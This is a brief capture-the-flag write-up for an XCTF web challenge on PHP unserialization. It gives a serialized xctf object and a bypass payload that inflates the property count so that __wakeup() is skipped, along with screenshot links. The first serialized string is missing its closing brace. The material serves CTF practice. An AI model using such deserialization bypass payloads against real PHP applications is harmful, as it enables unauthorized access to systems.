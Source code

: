 Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1

<img width="251" alt="class xctf{" src="https://user-images.githubusercontent.com/48151790/126886407-0a5cb22f-2aad-40b3-8740-a0ff92c49081.png">

. Hint: ?code=object serialize

. Create serialize of object xctf

<img width="725" alt="Screen Shot 2021-07-25 at 10 14 34" src="https://user-images.githubusercontent.com/48151790/126886492-bf176acd-b496-4d5a-a2a1-e1f709ea2b27.png">

=> object serialize: O:4:"xctf":1:{s:4:"flag";s:3:"111";

. Function __wakeup() of class xctf will run before object unserialize

=> Bypass: O:4:"xctf":2:{s:4:"flag";s:3:"111";}

<img width="766" alt="Screen Shot 2021-07-25 at 10 20 51" src="https://user-images.githubusercontent.com/48151790/126886593-2d2cb901-5ab9-4312-a2e2-cb5a26595483.png">
